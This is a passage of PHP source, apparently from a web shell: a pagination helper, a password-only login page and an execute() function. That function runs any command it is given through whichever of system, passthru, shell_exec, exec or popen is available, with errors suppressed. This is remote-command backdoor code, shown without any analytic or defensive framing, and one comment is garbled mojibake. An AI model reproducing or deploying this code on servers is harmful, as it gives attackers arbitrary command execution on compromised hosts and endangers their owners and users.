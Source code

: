 			} elseif($to &gt; $pages) {
				$from = $curpage - $pages + $to;
				$to = $pages;
				if(($to - $from) &lt; $page && ($to - $from) &lt; $pages) {
					$from = $pages - $page + 1;
				}
			}
		}
		$multipage = ($curpage - $offset &gt; 1 && $pages &gt; $page ? '&lt;a href="javascript:settable(\''.$tablename.'\', \'\', 1);"&gt;First&lt;/a&gt; ' : '').($curpage &gt; 1 ? '&lt;a href="javascript:settable(\''.$tablename.'\', \'\', '.($curpage - 1).');"&gt;Prev&lt;/a&gt; ' : '');
		for($i = $from; $i &lt;= $to; $i++) {
			$multipage .= $i == $curpage ? $i.' ' : '&lt;a href="javascript:settable(\''.$tablename.'\', \'\', '.$i.');"&gt;['.$i.']&lt;/a&gt; ';
		}
		$multipage .= ($curpage &lt; $pages ? '&lt;a href="javascript:settable(\''.$tablename.'\', \'\', '.($curpage + 1).');"&gt;Next&lt;/a&gt;' : '').($to &lt; $pages ? ' &lt;a href="javascript:settable(\''.$tablename.'\', \'\', '.$pages.');"&gt;Last&lt;/a&gt;' : '');
		$multipage = $multipage ? '&lt;p&gt;Pages: '.$multipage.'&lt;/p&gt;' : '';
	}
	return $multipage;
}
// µÇÂ½Èë¿Ú
function loginpage() {
?&gt;
	&lt;style type="text/css"&gt;
	input {font:11px Verdana;BACKGROUND: #FFFFFF;height: 18px;border: 1px solid #666666;}
	&lt;/style&gt;
	&lt;form method="POST" action=""&gt;
	&lt;span style="font:11px Verdana;"&gt;Password: &lt;/span&gt;&lt;input name="password" type="password" size="20"&gt;
	&lt;input type="hidden" name="action" value="login"&gt;
	&lt;input type="submit" value="Login"&gt;
	&lt;/form&gt;
&lt;?php
	exit;
}//end loginpage()

function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('system')) {
			@ob_start();
			@system($cfe);
			$res = @ob_get_contents();
			@ob_end_clean();
		} elseif(function_exists('passthru')) {
			@ob_start();
			@passthru($cfe);
			$res = @ob_get_contents();
			@ob_end_clean();
		} elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
		} elseif(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
		} elseif(@is_resource($f = @popen($cfe,"r"))) {
			$res = '';
			while(!@feof($f)) {
				$res .= @fread($f,1024); 
			}
			@pclose($f);
		}
	}